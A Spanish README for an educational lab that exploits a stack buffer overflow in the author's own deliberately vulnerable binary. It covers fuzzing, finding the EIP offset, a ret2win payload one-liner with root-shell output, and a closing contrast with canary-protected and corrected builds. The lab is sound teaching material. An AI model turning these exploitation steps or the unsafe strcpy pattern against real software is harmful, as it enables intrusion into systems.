

# Laboratorio práctico — del fallo al exploit

Aquí reproduzco, de principio a fin, el ciclo de explotación de un stack buffer
overflow sobre un binario vulnerable que escribí y compilé yo. Es la parte
práctica del capítulo [04 – Caso práctico](../docs/04-caso-practico.md).

Todo esto corre en un laboratorio aislado y con código deliberadamente inseguro.
No lo ejecuto en una máquina de producción ni contra nada que no sea mío, y quien
lo reproduzca debería hacer lo mismo.

## Contenido

| Archivo | Para qué sirve |
|---------|----------------|
| `src/vulnerable.c` | Código vulnerable fiel al manual (Windows/MinGW, `strcpy`) |
| `src/corregido.c` | Versión corregida fiel al manual (`strcpy_s`) |
| `src/vuln_linux.c` | Versión adaptada a Linux para practicar rápido (incluye `win()` para ret2win) |
| `Makefile` | Compila los binarios de laboratorio en 32 bits |
| `fuzzer.py` | Envía entradas crecientes hasta provocar el crash (fase 1) |
| `find_offset.py` | Genera patrón cíclico y calcula el offset exacto de EIP |
| `exploit.py` | Plantilla de exploit (ret2win) que demuestra el control de flujo |
| `capturas/` | Mis capturas de pantalla de cada paso |

## 0. El entorno

Trabajo sobre una VM Linux de laboratorio (Kali, Parrot o Ubuntu) aislada, con
snapshot antes de empezar. El montaje cambia según la arquitectura del host.

### Host x86 / x86-64 (PC Intel o AMD)

```bash
sudo apt update && sudo apt install -y gcc-multilib gdb python3 python3-pip
pip install pwntools --break-system-packages    # cyclic(), process(), etc.
```

### Host ARM64 (Mac con Apple Silicon → Kali ARM64)

Es mi caso. En ARM64 no existe `gcc-multilib`, así que no puedo compilar x86-32 de
forma nativa. La salida, fiel al manual porque sigue siendo x86/EIP, es compilar
con el cross-compiler i686 en estático y ejecutar bajo QEMU:

```bash
sudo apt update
sudo apt install -y gcc-i686-linux-gnu qemu-user qemu-user-static \
                    binfmt-support gdb-multiarch file
pip install pwntools --break-system-packages    # opcional
```

Con `qemu-user-static` y `binfmt-support`, los binarios i386 se ejecutan de forma
transparente (`./build/vuln_linux` corre sin escribir `qemu-i386` delante), así
que `fuzzer.py` y `exploit.py` funcionan sin tocar nada. Para depurar sí uso
`qemu-i386 -g` con `gdb-multiarch` (lo veo en §4).

En los dos casos, desactivo ASLR mientras practico:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## 1. Compilar el binario vulnerable

```bash
cd labs
make linux          # host x86: build/vuln_linux (32 bits, sin canary/PIE, execstack)
# --- o, en mi host ARM64 / Apple Silicon: ---
make cross          # compila x86-32 ESTÁTICO para ejecutar bajo QEMU
```

Compruebo las protecciones:

```bash
checksec --file=build/vuln_linux
```

Un detalle con `checksec` en binarios estáticos (host ARM): al enlazar en estático
(`-static`) puede mostrar "Canary found" como falso positivo, porque detecta el
símbolo `__stack_chk_fail` que trae la glibc incrustada. Mi `vulnerable_function`
se compiló con `-fno-stack-protector`, así que no tiene canary. Lo confirmo:

```bash
i686-linux-gnu-objdump -d build/vuln_linux | grep -A25 '<vulnerable_function>:'
#  -> veo 'call ...strcpy' y NINGUNA '__stack_chk'
```

La prueba definitiva llega en §2: el crash es SIGSEGV (señal 11), no SIGABRT
(señal 6). Si hubiera canary activo, vería "stack smashing detected".

Captura 1 (`capturas/01-checksec.png`): la salida de `checksec` y, en ARM, el
`objdump`.

### (Opcional) La versión del manual en Windows

En una VM Windows con [MinGW](https://sourceforge.net/projects/mingw/):

```bat
cd C:\MinGW\bin
gcc -m32 -fno-stack-protector -z execstack -o vulnerable.exe vulnerable.c
gcc -m32 -o corregido.exe corregido.c
```

## 2. Comportamiento normal vs. crash

```bash
./build/vuln_linux hola
# -> Has introducido: hola
# -> Programa finalizado correctamente.

./build/vuln_linux $(python3 -c 'print("A"*500)')
# -> Segmentation fault (core dumped)    <-- la entrada corrompe la pila
```

En mi host ARM64, binfmt ejecuta el binario x86 de forma transparente; también
puedo ser explícito con `qemu-i386 ./build/vuln_linux hola`. El crash aparece como
`qemu: uncaught target signal 11 (Segmentation fault)`.

Captura 2: `capturas/02-ejecucion-normal-vs-crash.png`.

## 3. Fuzzing: localizar el umbral del fallo

```bash
python3 fuzzer.py ./build/vuln_linux --start 50 --step 50 --max 1000
```

Salida típica:

```
[+] len=50    -> OK (rc=0)
[+] len=60    -> OK (rc=0)
[!] len=80    -> CRASH (rc=-11)
...
[+] Primer CRASH observado alrededor de 80 bytes.
```

Captura 3: `capturas/03-fuzzing.png`.

## 4. Analizar el crash y calcular el offset exacto de EIP

### Host x86 nativo — GDB directo

```bash
PATRON=$(python3 find_offset.py gen 200)
gdb -q ./build/vuln_linux
```

```gdb
(gdb) run $PATRON
...
Program received signal SIGSEGV, Segmentation fault.
(gdb) info registers eip
eip   0x6161616b   0x6161616b          # valor de ejemplo
```

### Host ARM64 (QEMU) — gdbstub en dos terminales

Como el binario es x86 emulado, GDB se conecta al servidor de depuración de QEMU
(`-g`).

Terminal 1 (se queda esperando al depurador):

```bash
qemu-i386 -g 1234 ./build/vuln_linux $(python3 find_offset.py gen 150)
```

Terminal 2:

```bash
gdb-multiarch -q build/vuln_linux
```

```gdb
(gdb) set architecture i386
(gdb) target remote localhost:1234
(gdb) continue
...
Program received signal SIGSEGV, Segmentation fault.
(gdb) info registers eip
eip   0x61616174   0x61616174          # valor real de mi laboratorio
```

### Resolver el offset (los dos casos)

```bash
python3 find_offset.py find 0x61616174
# [+] Offset exacto: 76
# [>] Estructura del payload: b'A'*76 + <4 bytes EIP> + <resto>
```

Verifico el control total mandando `A*76 + BBBB` y confirmando `eip = 0x42424242`:

```bash
# Host x86 nativo:
gdb -q ./build/vuln_linux
(gdb) run $(python3 -c 'print("A"*76 + "BBBB")')
(gdb) info registers eip        # eip = 0x42424242

# Host ARM64 (QEMU), dos terminales:
#   T1:  qemu-i386 -g 1234 ./build/vuln_linux $(python3 -c 'print("A"*76 + "BBBB")')
#   T2:  gdb-multiarch -q build/vuln_linux
#        (gdb) set architecture i386
#        (gdb) target remote localhost:1234
#        (gdb) continue
#        (gdb) info registers eip     # eip = 0x42424242 -> control total
```

Captura 4 (`capturas/04-control-eip.png`): la que muestra `eip = 0x42424242`. Es la
que mejor resume todo el trabajo.

## 5. Explotación: redirigir el flujo a `win()` (ret2win)

Saco la dirección real de `win()`. Mi binario la imprime al arrancar
(`[i] Direccion de win(): 0x...`); también con:

```bash
# Host x86:    nm -n build/vuln_linux | grep ' win'
# Host ARM64:  i686-linux-gnu-nm -n build/vuln_linux | grep ' win'
```

Ajusto `exploit.py` con mis valores y lo lanzo (en host ARM corre vía binfmt):

```bash
sed -i 's/^OFFSET = .*/OFFSET = 76/'            exploit.py
sed -i 's/^WIN_ADDR = .*/WIN_ADDR = 0x08049895/' exploit.py
python3 exploit.py ./build/vuln_linux
```

Aquí me comí un crash por un detalle: la dirección tiene bytes altos (`0x95`,
`0x98`), y si paso el payload como string decodificado, `subprocess` los recodifica
a UTF-8 y los corrompe. Por eso `exploit.py` pasa los bytes crudos por `argv`.
Equivalente directo:

```bash
python3 -c 'import subprocess, struct; p=b"A"*76+struct.pack("<I",0x08049895); subprocess.run([b"./build/vuln_linux", p])'
```

Si todo encaja, el flujo salta a `win()` y sale una shell:

```
[+] win() alcanzada: control de flujo conseguido.
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

Captura 5: `capturas/05-ret2win-shell.png`.

## 6. Contraste con el binario protegido y el corregido

Compilo la misma vulnerabilidad pero con canary activado y comparo:

```bash
# Host x86 nativo:
make protegido
./build/vuln_protegido $(python3 -c 'print("A"*200)')

# Host ARM64 / Apple Silicon:
make cross-protegido
qemu-i386 ./build/vuln_protegido $(python3 -c 'print("A"*200)')
```

Salida esperada:

```
*** stack smashing detected ***: terminated
qemu: uncaught target signal 6 (Aborted) - core dumped
```

El detalle clave: el crash pasa de señal 11 (SIGSEGV) —corrupción de la dirección
de retorno— a señal 6 (SIGABRT) —el canary detecta la sobrescritura y aborta antes
de usar esa dirección—. El mismo ataque que daba shell de root muere en seco.

- Stack canary: detecta el desbordamiento y aborta.
- PIE + ASLR: aleatorizan direcciones; una `WIN_ADDR` fija deja de valer sin un
  infoleak.
- La versión `corregido.c` ni siquiera desborda: `strcpy_s`/`snprintf` recortan la
  entrada.

Captura 6: `capturas/06-canary-detecta.png`. Es lo que conecta con el bastionado
del capítulo 7.

## Resumen del recorrido



Cada paso de este laboratorio se corresponde con una fase de la
[metodología](../docs/01-metodologia.md). La teoría y la práctica son lo mismo
visto desde dos lados.
